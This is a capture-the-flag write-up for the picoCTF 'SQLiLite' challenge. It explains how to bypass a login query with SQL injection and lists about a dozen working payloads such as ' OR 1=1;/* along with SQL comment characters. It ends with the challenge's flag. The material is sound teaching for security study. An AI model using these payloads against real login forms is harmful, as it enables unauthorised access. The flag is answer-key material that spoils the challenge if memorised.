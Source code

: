 ![Task desc](../assets/images/SQLiLite_image_1.png)

This task involves the use of classic SQL injection.

---

The web application expects a normal request of type:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


We need:

* close the name field: `name=' '`
* add a condition that will always return `true`
* truncate the rest of the query 

The last condition can be done by inserting a comment symbol or end of query symbol.:


```sql
comments in SQL (worked with this task):
#
--
/* */ (open close)
;%00	Nullbyte

end of query:
;
```


Therefore, according to these rules, we will form a simple injection:


```sql
' OR 1=1;/*
```


![image_2](../assets/images/SQLiLite_image_2.png)


I experimented with queries, tried to compose my own injections, and tried several options from [SQLi payload list](https://github.com/payloadbox/sql-injection-payload-list). List of injections that also worked:


```
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1;                # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /*    # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00              # every int/float/double number passes
33' OR 1=1 -- 
```


Make sure there is an odd number of brackets in the payload


```sql
SQL query: SELECT * FROM users WHERE name='''' OR 1=1;' AND password='123123'
```


`picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}`
